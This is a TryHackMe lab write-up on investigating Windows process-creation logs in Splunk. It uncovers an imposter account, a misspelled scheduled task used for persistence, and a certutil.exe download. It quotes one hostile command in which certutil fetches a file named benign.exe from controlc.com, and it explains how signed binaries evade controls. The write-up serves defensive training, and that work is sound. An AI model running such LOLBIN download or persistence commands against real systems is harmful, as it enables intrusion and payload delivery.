





# Benign - LOLBIN Certutil Process Investigation

**Platform:** TryHackMe  
**Difficulty:** Easy  
**OS:** Windows (Log Analysis)  
**Date:** 2026-03-14

---

## Overview

Investigating an IDS-flagged HR department host, this lab pivots through **13,959** Windows EventID 4688 process-creation logs in Splunk over March 2022 to uncover the imposter account **Amel1a** (impersonating *Amelia*), a misspelled **OfficUpdater** scheduled task persistence created by Chris.fort, and a **certutil.exe** LOLBIN download of *benign.exe* from controlc.com executed by compromised user **haroon** on HR_01.

**Target:** HR_01 (Windows HR department workstation, user haroon compromised)

---

## Network Segments

| Department | Users |
|---|---|
| IT | James, Moin, Katrina |
| HR | Haroon, Chris, Diana |
| Marketing | Bell, Amelia, Deepak |

---

## Investigation

### Phase 1: Scoping the Data

Setting the time range to March 2022 and searching the Splunk index establishes the event count for the investigation period.

```
index="win_eventlogs"
```



**Total events ingested for March 2022: 13,959**

---

### Phase 2: Imposter Account Discovery

The lab defines 9 legitimate users across three departments. Querying all unique usernames reveals 11 values, meaning two unexpected accounts are present. Listing all usernames by count surfaces the imposter at the bottom with only 1 event.



**Imposter account: Amel1a**

The number 1 replaces the letter "i" in the legitimate username *Amelia*. With 1071 events for the real Amelia and only 1 for Amel1a, the low event count is the immediate giveaway. This is the same account impersonation technique seen in previous labs, a small character substitution designed to evade casual review.

---

### Phase 3: Scheduled Task Abuse

Filtering for HR department users running schtasks.exe identifies the user responsible for creating a scheduled task.

```
index="win_eventlogs" UserName="Chris.fort" schtasks.exe
```



**HR user running scheduled tasks: Chris.fort**

The command line shows a scheduled task named *OfficUpdater* configured to run update.exe from a temp directory on startup. The misspelling of *OfficUpdater* instead of *OfficeUpdater* is a common attacker tell when naming persistence mechanisms to look legitimate at a glance.

---

### Phase 4: LOLBIN Payload Download

Searching HR user command lines for HTTP activity surfaces a single event showing a file download using a legitimate Windows binary.

```
index="win_eventlogs" (UserName="haroon" OR UserName="Chris.fort" OR UserName="Daina") CommandLine="*http*"
```



**HR user who executed the LOLBIN: haroon**

**LOLBIN used: certutil.exe**

**Command executed:**
```
certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
```

certutil.exe is a legitimate Windows Certificate Services utility. The -urlcache -f flags force it to fetch a remote URL and cache it locally, effectively turning it into a download tool. Because it is a signed Microsoft binary, it bypasses many security controls that would flag an unknown executable making the same request.

**Date executed:** 2022-03-04

**Third-party site accessed:** controlc.com

**File saved on host:** benign.exe

**Full URL:** https://controlc.com/e4d11035

---

### Phase 5: Flag Extraction

Visiting the C2 URL directly in a browser reveals the malicious content and the flag embedded in the payload.



**THM flag retrieved from C2 server.**

---

### Room Completed


---

## Vulnerability Summary

### Imposter Account - Amel1a

An attacker created a user account named *Amel1a* to impersonate the legitimate Marketing user *Amelia* by substituting the letter "i" with the number 1. The account generated only 1 process creation event, indicating it was created but minimally used, likely staged for later access.

**Remediation:** Implement account naming policy enforcement and alert on new account creation events (EventID 4720). Regular user account audits comparing active accounts against HR records would catch this quickly.

### Scheduled Task Persistence - Chris.fort

The user Chris.fort created a scheduled task named *OfficUpdater* configured to execute a binary from a user temp directory on system startup. Running executables from temp directories via scheduled tasks is a high confidence indicator of persistence.

**Remediation:** Monitor for EventID 4698 (scheduled task creation) and alert on tasks that execute binaries from user temp or AppData directories. Restrict scheduled task creation to administrators.

### LOLBIN Payload Download - haroon

The user haroon executed certutil.exe with the -urlcache -f flags to download a file named benign.exe from the third-party file sharing site controlc.com. Using a legitimate system binary to download a payload bypasses application whitelisting and many endpoint security controls that would otherwise flag an unknown downloader.

**Remediation:** Monitor for certutil.exe executions containing URLs in the command line arguments. Block outbound HTTP connections from Certificate Services binaries at the firewall level. Alert on any process writing executable files to user temp directories.

---

## Key Takeaways

- EventID 4688 (process creation) logs alone can reveal a full attack chain when combined with targeted SPL queries
- Imposter accounts are often caught by looking for rare values in username fields rather than top values. The low event count is the indicator
- LOLBINs like certutil.exe are dangerous because they are trusted by default. Defenders need to monitor argument patterns, not just process names
- Searching CommandLine fields for HTTP patterns is an effective way to identify download activity regardless of which binary was used
- A single event can answer multiple investigation questions. The certutil event in this lab answered six questions at once
